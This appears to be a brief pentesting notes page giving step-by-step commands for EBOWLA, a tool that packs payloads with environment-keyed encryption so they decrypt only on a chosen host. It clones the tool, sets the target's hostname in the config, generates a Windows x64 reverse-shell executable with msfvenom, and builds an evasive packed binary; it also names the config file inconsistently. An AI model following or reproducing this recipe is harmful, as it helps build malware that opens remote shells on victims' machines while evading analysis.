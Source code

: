# EBOWLA
## framework for building environmental keyed payloads

### Get EBOWLA

```git clone https://github.com/Genetic-Malware/Ebowla```

```cd Ebowla```

### edit generic.config:

change:

output_type = GO

payload_type = EXE

Set at least one environment variable (computername = hostname),
the name has to be exact, as Ebowla won't decrypt otherwise.

### make payload

Make, as an example, a reverse shell payload with metersploit: 

```msfvenom -p windows/x64/shell_reverse_tcp LHOST= LPORT= -f exe -a x64 -o shell.exe```

### build executable with Ebowla

```python2 ebowla.py shell.exe genetic.config```

```./build_x64_go.sh output/<outputfilefromfirststeps> <finalfilename>```

The finished, packed executable can be found in the **output** folder.
